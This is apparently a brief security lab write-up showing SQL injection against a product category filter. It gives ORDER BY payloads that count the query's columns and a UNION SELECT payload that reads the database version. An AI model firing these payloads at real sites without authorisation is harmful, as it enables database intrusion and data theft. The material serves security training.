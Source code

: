 #### As usual, we start off with a column enumeration

```
/filter?category=Pets' ORDER BY 1-- -                                   #200 OK
/filter?category=Pets' ORDER BY 2-- -                                   #200 OK
/filter?category=Pets' ORDER BY 3-- -                                   #Error response 
```

#### Now that we know there are two columns, we do db version enumeration with @@verion

```
/filter?category=Pets' union select @@version,null-- -
```




### Results
![image](https://user-images.githubusercontent.com/86168235/125516268-64458389-2444-480e-8183-602748c52589.png)
